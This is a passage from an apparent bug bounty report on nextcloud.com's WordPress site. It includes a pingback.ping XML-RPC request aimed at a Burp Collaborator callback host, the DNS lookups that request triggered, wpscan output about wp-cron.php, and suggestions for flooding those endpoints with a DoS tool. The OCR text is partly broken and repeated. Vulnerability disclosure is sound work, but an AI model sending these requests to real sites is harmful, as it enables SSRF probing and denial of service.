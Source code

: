 <param>
<value><string>https://vmlj9gt0rjmxrtgsqlp1f10hj8pydn.oastify.com </string></value>
</param>
<param>
<value><string>//http://nextcloud.com</string></value>
</param>
</params>
</methodCall>

My burp collaborator recived the following data:

1-(The Collaborator server received a DNS lookup of type A for the domain name vmlj9gt0rjmxrtgsqlp1f10hj8pydn.oastify.com.  The lookup was received 
 from IP address 66.185.117.247 at 2023-Dec-28 23:20:49 UTC.)  
2-(The Collaborator server received a DNS lookup of type A for the domain name hbww3w9q0reg6waj01swvpedp4vujj.oastify.com.  The lookup was received from IP address 66.185.117.250 at 2023-Dec-28 23:08:21 UTC.)
---------------------------------------------------------------------------------------------------------------------------------
>> Step 4. Back to wordpress scan tool results ( wpscan  --url  http://nextcloud.com  --enumerate  u ) :
What /wp-cron.php?
This script is used by WordPress to perform scheduled tasks, such as publishing scheduled posts, checking for updates, and running plugins.
An attacker can exploit this vulnerability by sending a large number of requests to the wp-cron.php script, causing it to consume excessive resources and overload the server. This can lead to the application becoming unresponsive or crashing, potentially causing data loss and downtime.

he external WP-Cron seems to be enabled: https://nextcloud.com/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

Attcker can use  >> Step . 3  to send alot of  requests using xmlrpc.php  https://nextcloud.com/wp-cron.php  and if he wrote an python script to perform his attack with the header details , thes action can lead to stop  wp-cron.php services .And he can make it using doser.go DOS attack tool .
                  
Steps to Reproduce using access to xmlrpc.php file:

                POST /xmlrpc.php HTTP/2
                 Host: http://nextcloud.com
                 User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
                 Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,/;q=0.8
                 Accept-Language: en-US,en;q=0.5
                 Accept-Encoding: gzip, deflate
                 Upgrade-Insecure-Requests: 1
                 Sec-Fetch-Dest: document
                 Sec-Fetch-Mode: navigate
                Sec-Fetch-Site: none
                 Sec-Fetch-User: ?1
                  Te: trailers
                  Content-Type: application/x-www-form-urlencoded
                   Content-Length: 344
                   <?xml version="1.0" encoding="UTF-8"?>
                  Code 286 BytesUnwrap lines Copy Download
                  <methodCall>
                  <methodName>pingback.ping</methodName>
                 <params>
                  <param>
                  <value><string>https://vmlj9gt0rjmxrtgsqlp1f10hj8pydn.oastify.com </string></value>
                   </param>
                  <param>